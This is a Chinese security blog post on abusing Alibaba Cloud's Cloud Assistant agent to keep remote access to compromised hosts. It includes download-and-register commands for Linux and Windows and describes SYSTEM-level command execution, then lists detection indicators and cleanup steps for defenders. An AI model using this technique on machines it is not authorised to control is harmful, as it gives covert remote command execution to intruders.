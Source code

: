 # 022-Ali云助手权限维持




## Ali云助手权限维持

## 简介

**云助手**是专为云服务器 ECS 打造的原生自动化运维工具，通过免密码、免登录、无需使用跳板机的形式，在 ECS 实例上实现批量运维、执行命令（Shell、PowerShell、Bat等）和发送文件等操作。

典型的使用场景包括：安装卸载软件、启动或停止服务、分发配置文件和执行一般的命令（或脚本）等。

但实际上也可以针对终端主机进行远程运维，因此可以用于实现权限维持。

&gt; 官方文档：
&gt;
&gt; https://help.aliyun.com/zh/ecs/user-guide/overview-10

## 利用

1、打开阿里云控制台，依次找到 产品与服务 -&gt; 云服务器 ECS -&gt; 运维与监控 -&gt; 发送命令/文件（云助手） -&gt; 托管实例 -&gt; 创建注册码：

![image-20230817023716768](resource/Ali云助手权限维持.assets/image-20230817023716768.png)

2、输入配置信息，包括如下内容：

- 实例名称前缀

  默认的实例名称。默认使用 hostname 作为实例名称。 若设置，则使用该注册码所注册的实例，将使用该名称作为前辍生成有序的实例名； 也可以在注册时指定新的实例名称以覆盖此默认值。

  只可包含特殊字符中的点号（.）、下划线（_）、连字符（-）和半角冒号（:）

- 来源IP限制：

  待注册的主机的访问互联网时的公网IP或IP范围，支持 IPv4、IPv6和CIDR地址段。

  仅在主机注册阶段进行校验。

- 激活数额度：

  注册码可激活的实例数，即此注册码最多可用于注册的次数。默认值10，最多可支持1000台。

- 有效期：

  注册码的有效期，默认4小时，可选范围 1～876576小时（约100年，半永久:laughing:  ）。

  超出有效期后，该注册码不可用于注册新的主机。

3、点击生成注册码

当生成注册码后，会在下方显示实例注册的命令脚本内容。该注册码内容只显示一次，因此需要保存此注册码唯一ID与内容。

支持Linux 和Windows :

**Linux(.rpm)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.rpm
sudo rpm -ivh aliyun_assist_latest.rpm --force 
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxL47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxxD244E7&#34;
```

**Linux(.deb)**

```shell
sudo wget https://aliyun-client-assist.oss-accelerate.aliyuncs.com/linux/aliyun_assist_latest.deb
sudo dpkg -i aliyun_assist_latest.deb
sudo aliyun-service --register --RegionId &#34;cn-hangzhou&#34; \
   --ActivationCode &#34;a-hz012xxxxxx47fD/f&#34; \
   --ActivationId &#34;1DA9xxxxxx3D244E7&#34;
```

**Windows**

```powershell
Invoke-WebRequest -Uri `
&#39;https://aliyun-client-assist.oss-accelerate.aliyuncs.com/windows/aliyun_agent_latest_setup.exe&#39; `
-OutFile &#39;C:\\aliyun_agent_latest_setup.exe&#39;
&amp;&#34;C:\\aliyun_agent_latest_setup.exe&#34; &#39;/S&#39; &#39;--register&#39; `
&#39;--RegionId=&#34;cn-hangzhou&#34;&#39; &#39;--ActivationCode=&#34;a-hz012xxxxvttL47fD/f&#34;&#39; `
&#39;--ActivationId=&#34;1DA9xxxxx244E7&#34;&#39;
```

生成的注册码中的关键参数就是 ActivationId值 和 ActivationCode值，Id和Code互相相互对应，可点击 “注册新实例” 处，查看过去建立生成的 ActivationId 值，但 ActivationCode值不可查。

![image-20230817154351004](resource/Ali云助手权限维持.assets/image-20230817154351004.png)

![image-20230817154514371](resource/Ali云助手权限维持.assets/image-20230817154514371.png)





使用阿里云给出的命令下载云助手agent，可能会出现权限不足的情况，需要将文件输出在当前用户可写的路径下。

![image-20230817171338213](resource/Ali云助手权限维持.assets/image-20230817171338213.png)

第一段命令为下载云助手Agent，需要等待一段时间，也可以通过其他方式投递。

第二段命令为云助手Agent注册上线ECS云助手控制端。

在目标机器上运行相应脚本，执行完之后需要刷新或者重新打开一个标签页，即可展示结果：

![image-20230817024035403](resource/Ali云助手权限维持.assets/image-20230817024035403.png)

执行命令相当于创建一个脚本，依次去执行；

远程登录即类似ECS，开启一个Web形式的终端

![image-20230817024508568](resource/Ali云助手权限维持.assets/image-20230817024508568.png)

可以看到登录后即为system权限。



目前发现一些问题：

1. 云助手Agent执行时有 UAC认证；
2. Powershell执行命令下载文件时，需要等待。
3. 在Windows Arm上会被识别为Ubuntu
4. 只适合命令控制，传输文件大小有限制，上传的文件原始大小不大于24KB，且经过Base64编码后的文件不能大于32KB。因此更适合与命令控制和权限维持。
5. 一条命令中，自定义参数的个数不能超过20个



## 排查

**云助手Agent**：

运行云助手后，Windows系统上会有一个 aliyun_agent的进程和一个AliyunService服务，该进程服务会开机自启。

![image-20230817024805213](resource/Ali云助手权限维持.assets/image-20230817024805213.png)

![image-20230817144637237](resource/Ali云助手权限维持.assets/image-20230817144637237.png)

**云助手守护进程：**

本地结束该进程后，远程连接即可终端。未发现进程保护等动作。

![image-20230817030214110](resource/Ali云助手权限维持.assets/image-20230817030214110.png)

![image-20230817030414029](resource/Ali云助手权限维持.assets/image-20230817030414029.png)

查了文档发现其实有守护进程，只是目前仅支持Linux操作系统。

云助手守护进程，用于监控云助手Agent的资源消耗情况，上报云助手Agent的运行状态，以及当云助手Agent崩溃时重启云助手Agent。

- 服务名称：`AssistDaemon`
- 路径：`/usr/local/share/assist-daemon/assist_daemon`

**任务执行路径：**

云助手会将用户的命令内容以文件形式先保存到实例上，然后再执行文件，具体保存路径如下：

- Linux：/tmp

- Windows：云助手安装路径/work/script

**通信流量：**

本地Agent上线后会先对域名进行解析，根据命令行中`--RegionId=&#34;cn-hangzhou&#34;`的键值，会寻找相应的节点，这里就是`cn-hangzhou.axt.aliyuncs.com`。

![image-20230817175441073](resource/Ali云助手权限维持.assets/image-20230817175441073.png)

从TLS协议握手过程可以看到Server Name为`cn-hangzhou.axt.aliyuncs.com`，接下去所走的流量都是TLS加密流量。

![image-20230817174220890](resource/Ali云助手权限维持.assets/image-20230817174220890.png)



## 特征：

1. 检测阿里云助手官方程序，确认是否本人安装
2. 域名：aliyun-client-assist.oss-accelerate.aliyuncs.com，用于下载云助手Agent程序，可被绕过通过其他方式投递。
3. 通信流量，DNS解析记录有`*.axt.aliyuncs.com`，TLS Client Hello 证书握手时Server Name是`*.axt.aliyuncs.com`
4. 进程名：aliyun_agent，服务名：Aliyun Assist Service
5. Linux系统守护进程：AssistDaemon

天眼分析中心日志检测，SSL加密协商：`server_name: (*.axt.aliyuncs.com)`

## 处置

1. 杀进程，关闭服务
2. 删除被非法安装的Ali云助手
3. 排查其他权限维持动作并清除。
4. 增加流量侧和终端侧检测，标记md5和域名。



## 参考文章：

https://mp.weixin.qq.com/s/-JqzD_F_5CqdwZAyhEBU8g

---

> 作者: Xavier  
> URL: https://www.bthoughts.top/posts/ali%E4%BA%91%E5%8A%A9%E6%89%8B%E6%9D%83%E9%99%90%E7%BB%B4%E6%8C%81/  

